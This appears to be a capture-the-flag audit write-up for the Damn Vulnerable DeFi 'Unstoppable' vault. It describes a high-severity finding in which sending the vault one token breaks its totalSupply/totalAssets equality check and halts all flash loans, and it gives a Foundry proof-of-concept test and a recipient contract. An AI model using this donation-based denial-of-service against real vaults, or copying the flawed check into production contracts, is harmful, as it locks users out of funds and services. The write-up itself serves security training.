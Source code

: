 # High 

### [H-1] `Unstoppable::flashloan`, flash loans can be haulted if balance of `Unstoppable::totalSupply` & `Unstoppable::totalAssets` are not 1:1. 

``` solidity 
        uint256 balanceBefore = totalAssets();
        // shares must be 1:1 with balance
        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
```

### Proof of Code: Any account can hault flash loans if they send `Unstoppable` an unexpected amount of assets. 

``` solidity 

    function test_unstoppable() public checkSolvedByPlayer {

        uint256 _totalsupply = vault.totalSupply();
        uint256 shares = vault.convertToShares(_totalsupply);

        token.transfer(address(vault), 1);
        console.log("balance of vault: %s", vault.totalAssets());
        console.log("total number of shares: %s", shares);

        vm.expectRevert();
        vault.flashLoan(recipient, address(token), 2e18, "");
    }

```
``` solidity 
contract FlashLoanRecipient is IERC3156FlashBorrower {
    DamnValuableToken public token;
    UnstoppableVault public vault;

    constructor(DamnValuableToken _token, UnstoppableVault _vault) {
        token = _token;
        vault = _vault;
    }

    function onFlashLoan(address initiator, address token, uint256 amount, uint256 fee, bytes calldata)
        external
        returns (bytes32)
    {
        console.log("FlashLoan Recipient balance during execution: %s", DamnValuableToken(token).balanceOf(address(this)));

        DamnValuableToken(token).approve(address(vault), amount + fee);

        return keccak256("IERC3156FlashBorrower.onFlashLoan");
    }
}
```